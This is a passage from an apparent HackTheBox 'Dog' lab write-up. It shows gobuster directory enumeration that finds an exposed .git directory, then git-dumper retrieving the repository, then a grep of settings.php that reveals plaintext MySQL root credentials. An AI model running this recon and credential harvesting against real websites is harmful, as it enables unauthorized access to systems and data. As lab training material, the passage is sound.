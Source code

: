 Then Directory Enumeration with `gobuster` tool.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Dog]
└─$ gobuster dir -u 10.10.11.58 -w /usr/share/wordlists/dirb/common.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.58
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.git/HEAD            (Status: 200) [Size: 23]
/.htpasswd            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/core                 (Status: 301) [Size: 309] [--> http://10.10.11.58/core/]
/files                (Status: 301) [Size: 310] [--> http://10.10.11.58/files/]
/index.php            (Status: 200) [Size: 13332]
/layouts              (Status: 301) [Size: 312] [--> http://10.10.11.58/layouts/]
/modules              (Status: 301) [Size: 312] [--> http://10.10.11.58/modules/]
/robots.txt           (Status: 200) [Size: 1198]
/server-status        (Status: 403) [Size: 276]
/sites                (Status: 301) [Size: 310] [--> http://10.10.11.58/sites/]
/themes               (Status: 301) [Size: 311] [--> http://10.10.11.58/themes/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
~~~

Next, I used tool `git-dumper` extract the entire Git repository from a website if the .git/ directory is public.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Dog]
└─$ git-dumper http://dog.htb/.git .
~~~

> You can prefer database-configuration [here](https://docs.backdropcms.org/documentation/database-configuration).
{: .prompt-info }

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Dog]
└─$ cat settings.php| grep "database" 
 * Most sites can configure their database by entering the connection string
 * below. If using primary/replica databases or multiple connections, see the
 * advanced database documentation at
 * https://api.backdropcms.org/database-configuration
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';
 * of the serialized database credentials will be used as a fallback salt.
 * with any backups of your Backdrop files and database.
 * the database is inactive due to an error. It can be set through the
 * database changes are necessary. Modifying values within complicated objects
 * Typically used to specify a different database connection information, to
$database_charset = 'utf8mb4';
~~~
